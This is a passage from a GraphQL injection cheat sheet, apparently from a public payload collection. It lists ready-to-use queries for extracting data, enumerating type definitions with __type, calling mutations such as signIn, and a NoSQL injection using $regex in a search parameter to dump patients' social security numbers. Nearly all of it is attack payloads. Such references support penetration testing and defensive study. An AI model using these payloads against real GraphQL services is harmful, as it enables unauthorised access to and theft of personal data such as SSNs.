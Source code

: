 ### Extract data

```js
example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}}
```

![HTB Help - GraphQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/Images/htb-help.png?raw=true)

### Extract data using edges/nodes

```json
{
  "query": "query {
    teams{
      total_count,edges{
        node{
          id,_id,about,handle,state
        }
      }
    }
  }"
}
```

### Extract data using projections

:warning: Don’t forget to escape the " inside the **options**.

```json
{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
```

### Enumerate the types' definition

Enumerate the definition of interesting types using the following GraphQL query,
replacing "User" with the chosen type

```javascript
{__type (name: "User") {name fields{name type{name kind ofType{name kind}}}}}
```

### Use mutations

Mutations work like function, you can use them to interact with the GraphQL.

```javascript
# mutation{signIn(login:"Admin", password:"secretp@ssw0rd"){token}}
# mutation{addUser(id:"1", name:"Dan Abramov", email:"dan@dan.com") {id name email}}
```

### NOSQL injection

Use `$regex`, `$ne` from []() inside a `search` parameter.

```json
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}",
    search: "{ \"patients.ssn\": { \"$regex\": \".*\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
```
